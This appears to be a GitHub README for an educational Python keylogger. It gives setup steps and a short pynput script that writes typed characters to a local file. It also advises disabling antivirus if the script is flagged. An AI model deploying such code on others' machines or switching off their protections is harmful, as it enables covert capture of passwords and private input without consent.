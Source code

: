 # Keylogger Project

## 📌 Overview
This project is a simple **keylogger** implemented in Python using the `pynput` library. A keylogger is a program that records every key pressed on a keyboard and stores it in a text file. While keyloggers have legitimate uses (e.g., monitoring self-inputs or debugging), they can also be **misused for malicious purposes**, making them potentially dangerous.

---

## ⚠️ Disclaimer
**This script is for educational purposes only.** Unauthorized use of keyloggers to capture keystrokes without consent may violate laws and ethical guidelines.

---

## 🔧 Setup Instructions
### 1️⃣ Install Python
Ensure you have **Python 3.7+** installed. You can check your Python version by running:
```sh
python3 --version
```
If Python is not installed, install it via Homebrew (Mac) or from [Python's official website](https://www.python.org/downloads/).
```sh
brew install python
```

### 2️⃣ Create a Virtual Environment
It is recommended to use a **virtual environment** to keep dependencies isolated.
```sh
python3 -m venv venv
source venv/bin/activate  # For macOS/Linux
```
```sh
venv\Scripts\activate    # For Windows
```

### 3️⃣ Install Dependencies
```sh
pip install pynput
```

### 4️⃣ Run the Keylogger
Save the following Python code as `keylogger.py`:
```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", "a") as logkey:
        try:
            char = key.char
            logkey.write(str(char))
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
```
Run the script:
```sh
python keylogger.py
```

---

## 📂 How It Works
- When you **run** this script, it starts listening for keystrokes.
- Every key pressed is **recorded** and stored in `keyfile.txt`.
- The script runs in the background, continuously logging all input.

> **Warning:** This script captures all user input, which can include **passwords and sensitive information**. Always use it responsibly.

---

## 🚨 Security Considerations
### 🔹 MacOS Users
You may need to enable **Input Monitoring** to allow the script to capture keystrokes:
1. Open **System Preferences** → **Privacy & Security**
2. Go to **Input Monitoring** and grant permissions to **Terminal (or Python)**.

### 🔹 Windows Users
Some antivirus software may block or flag this script. To run it:
1. Temporarily **disable** antivirus detection (if necessary).
2. Run the script with administrator privileges (if needed).

---

## ❌ How to Stop the Keylogger
To **terminate** the keylogger, press:
- `CTRL + C` in the terminal (for Windows/macOS/Linux).
- Close the terminal window.

---

## 🔚 Conclusion
This project serves as a simple demonstration of how keyloggers work and why they can be dangerous if misused. Use this knowledge **ethically and legally**, ensuring you have explicit consent when running keyloggers on any system.

**Happy Coding! 🚀**
